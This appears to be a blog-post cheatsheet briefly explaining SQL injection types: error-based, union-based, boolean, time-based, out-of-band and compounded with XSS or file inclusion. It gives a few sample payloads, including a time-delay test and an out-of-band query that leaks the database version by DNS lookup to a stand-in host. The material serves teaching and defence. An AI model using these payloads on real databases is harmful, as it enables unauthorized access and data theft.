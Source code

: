 ```yaml
---
layout: post
title: "SQL Injection"
date: 2023-06-15
categories:
  - CHEATSHEET
tags:
  - SQLi
---
```


## In-Band SQLi (Error-Based SQLi and Union-Based SQLi)

* **Error-Based SQLi**: This technique involves performing actions that cause the SQL database to throw an error, which is helpful for an attacker to understand the structure of the database.
* **Union-Based SQLi**: This type of attack leverages the UNION SQL operator to combine the results of two or more SELECT statements into a single result which is then returned as part of the HTTP response.

  

## Blind/Inferential SQLi (Boolean-Based SQLi and Time-Based SQLi)  


* **Boolean-Based SQLi**: The attacker sends an SQL query to the database which forces the application to return a different result depending on whether the query returns a TRUE or FALSE result.
  * Example: Adjusting a statement to check a condition, such as `SELECT * FROM users WHERE username = 'admin' AND 1=1` (true) versus `1=2` (false).
* **Time-Based SQLi**: This attack involves modifying the database query so that its execution will take more time to complete, depending on a specified SQL statement’s condition.
  * Example: `IF (1=1) WAITFOR DELAY '00:00:05'` - if the condition is true, the response will be delayed by 5 seconds, indicating a successful SQL injection.

  
## Out-of-Band SQLi  


This type of SQLi occurs when an attacker is unable to use the same channel to launch the attack and gather results. Out-of-Band techniques, which rely on the capacity of the server to make DNS or HTTP requests to transfer data to an attacker. 

**Example:** Triggering a DNS lookup to a server controlled by an attacker with a query like: `SELECT load_file(concat('\\\\',(SELECT @@version),'.example.com\\test'))`.

  
## Compounded SQLi (SQLi with XSS or SQLi with LFI)  


Attackers might use SQLi to inject malicious JavaScript, leading to stored XSS, or exploit SQLi to include files from the system (LFI). 

**Example:** Inserting a script tag into a database field that is later displayed in user browsers, or manipulating file paths stored in the database to execute or leak files from the server.


